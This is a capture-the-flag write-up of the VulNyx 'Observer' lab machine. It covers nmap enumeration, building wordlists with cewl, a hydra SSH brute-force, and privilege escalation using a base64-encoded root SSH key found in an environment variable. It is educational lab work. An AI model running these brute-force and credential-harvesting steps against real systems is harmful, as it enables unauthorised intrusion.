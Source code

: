 ```yaml
---
title: VulNyx - Observer Writeup
date: 2025-06-11 20:45:00 +0530
categories: [Vulnyx, Writeups]
tags: [linux, cewl, hydra, ssh-bruteforce, x11forwarding, credential-exposure, env, privesc]
description: 
---
```


`Observer` is an easy difficulty linux box. This machine consists of brute-forcing an SSH instance, initial access via X11Forwarding, user credential exposure, and finally privilege escalation via an exposed root SSH private key in the environment variables.

## Enumeration

### Nmap

Performing a basic port scan and service enumeration with `nmap` gives us the following 

```bash
❯ nmap -p- observer.nyx -v     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
Initiating ARP Ping Scan at 08:43
Scanning observer.nyx (192.168.25.16) [1 port]
Completed ARP Ping Scan at 08:43, 0.05s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating SYN Stealth Scan at 08:43
Scanning observer.nyx (192.168.25.16) [65535 ports]
Discovered open port 22/tcp on 192.168.25.16
Discovered open port 80/tcp on 192.168.25.16
Completed SYN Stealth Scan at 08:43, 1.96s elapsed (65535 total ports)
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.000087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.13 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
❯ nmap -sC -sV -p 22,80 observer.nyx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: iData-Hosting-Free-Bootstrap-Responsive-Webiste-Template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port 80

## HTTP (80)

We tried performing directory and v-host enumeration but could not find anything useful. However, the website content contained possible usernames as shown below.

![image.png](/assets/img/observer_vulnyx/image.png)

### Creating username wordlist

```bash
❯ cat users.txt                           
john
mike
remo
niscal
```

### Creating password wordlist (cewl)

We created a wordlist using `cewl` that can be used to attempt a SSH brute-force attack. 

```bash
❯ cewl http://observer.nyx -w wordlist.txt
```

## SSH Brute-force

By performing a brute-force attack we obtained valid SSH credentials `niscal:niscal`

```bash
hydra -L wordlist.txt -P wordlist.txt ssh://observer.nyx:22 -u 
```
![image.png](/assets/img/observer_vulnyx/image%206.png)

![image.png](/assets/img/observer_vulnyx/image%201.png)

Interesting..let’s try logging in by using trusted `X11Forwarding`



```bash
ssh -Y niscal@observer.nyx
```

We find exposed credentials for the user `remo`

![image.png](/assets/img/observer_vulnyx/image%202.png)

## User flag

![image.png](/assets/img/observer_vulnyx/image%203.png)

## Privilege Escalation

### Environment variables

```bash
remo@observer:~$ env
```
We discovered an environment variable name `rootKEY` which appears to be encoded in `base64` 

![image.png](/assets/img/observer_vulnyx/image%204.png)

### Decoding base64 “rootKEY”

We decoded the `base64` encoded `rootKEY` which revealed an SSH private key which we stored in the file `private_key` and modified permissions.

```bash
echo -n "redacted"| base64 -d > private_key
```

```bash
chmod 600 private_key
```

### Root flag

```bash
ssh -i private_key root@observer.nyx
```

![image.png](/assets/img/observer_vulnyx/image%205.png)